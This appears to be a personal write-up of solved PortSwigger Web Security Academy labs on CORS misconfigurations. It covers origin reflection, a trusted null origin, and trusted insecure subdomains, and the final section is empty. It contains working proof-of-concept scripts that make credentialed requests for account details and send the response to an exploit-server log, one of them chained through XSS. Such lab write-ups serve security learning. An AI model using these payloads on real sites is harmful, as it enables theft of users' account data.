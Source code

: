 # Title: Cross origin resource sharing , Web Academy
- By👨‍💻: Nathan Hailu
- Description🗒: Labs are solved and their write up is here.
- Date📅: Mon 12/12/2022

================= { START } ==============================

## You try course if u have seen "Access-Control-Allow-Credentials: true" this kinda response headers!
A) **CORS vulnerability with basic origin reflection**

    When we try to test CORS we will see the response if it contains the acess-control-allow-origin or acess-control-allow-credentials header. if it have that we will try to use the origin header on the request and try to see if he pass or block it. if it pass we can exploit it with some CORS POC scripts
       
                <script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();

            function reqListener() {
                location='/log?key='+this.responseText;
            };
            </script>


B) **CORS vulnerability with trusted null origin**

    Thanks to developers they have forgoted 'null' by whitelisting it for local work. so first, we will try to add origin: example.con then we will try origin: * but when we try origin: null  it will responde with so Access-Control-Allow-Origin: null boom! we just need to run CORS POC script.

                <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
            var req = new XMLHttpRequest();
            req.onload = reqListener;
            req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
            req.withCredentials = true;
            req.send();
            function reqListener() {
                location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
            };
            </script>"></iframe>

C) **CORS vulnerability with trusted insecure protocols **

    TO detect we can try different methods.
            1, origin: *
            2, origin: https://attacker.com
            3, origin: null
            4, origin: https://attacker.OriginalURL.com
            5, origin: https://OriginalURL.com.attacker.com
            
        These things have to give {
            Access-Control-Allow-Origin: https://attacker.OriginalURL.com
            Access-Control-Allow-Credentials: true
        }
    on this lab when we try all they wont work except the method 4, there for we will try to find a subdomain, for that you can use tools, also you can check the site endpoints.
    finally, you will get stock.webacademy.com domain so we will try any open vuln on it if the site have some vuln like xss, we will craft our JS code like below.

    <script>
    document.location="http://stock.0a55009e038cde09c07b54ee00230042.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a55009e038cde09c07b54ee00230042.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a13006e037fdecbc0ae53ee0174000f.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>

D) **CORS vulnerability with internal network pivot attack**



    